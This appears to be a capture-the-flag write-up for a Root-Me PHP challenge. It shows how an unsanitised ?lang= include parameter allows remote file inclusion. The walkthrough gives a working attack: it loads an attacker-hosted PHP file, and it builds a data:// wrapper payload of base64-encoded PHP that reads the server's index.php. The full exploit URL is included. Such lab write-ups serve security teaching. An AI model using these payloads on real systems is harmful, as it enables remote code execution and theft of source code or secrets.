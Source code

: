 You see that the language is requested by ?lang=... . Let's try ?lang=abcd, you have the following error:

```
Warning: include(abcd_lang.php): failed to open stream: No such file or directory in /challenge/web-serveur/ch13/index.php on line 18 Warning: include(): Failed opening 'abcd_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```
There is certainly something like:

```
$lang = $_GET["lang"];
include($lang."_lang.php");
```

If you can host php file on a remote server, you can name one hack_lang.php. And then entern ?lang=yourwebsite/hack

This will remotely execute the php code present in the file of your server, and you will be able to print the flag.

If you do not have a server, or do not want to use one, you can get the fag by using PHP's data:// wrapper

For example, if you convert this code :

```
<?php
$code = file_get_contents('/challenge/web-serveur/ch13/index.php');
echo $code;
?>
```
 to base 64, you will obtain:
 ```
 PD9waHANCg0KJGNvZGUgPSBmaWxlX2dldF9jb250ZW50cygnL2NoYWxsZW5nZS93ZWItc2VydmV1ci9jaDEzL2luZGV4LnBocCcpOw0KZWNobyAkY29kZTsNCg0KPz4=
 ```

Then, you can request the URL: http://challenge01.root-me.org/web-serveur/ch13/?lang=data://text/plain;base64,PD9waHANCg0KJGNvZGUgPSBmaWxlX2dldF9jb250ZW50cygnL2NoYWxsZW5nZS93ZWItc2VydmV1ci9jaDEzL2luZGV4LnBocCcpOw0KZWNobyAkY29kZTsNCg0KPz4=


And you have the flag ! (in the source code)
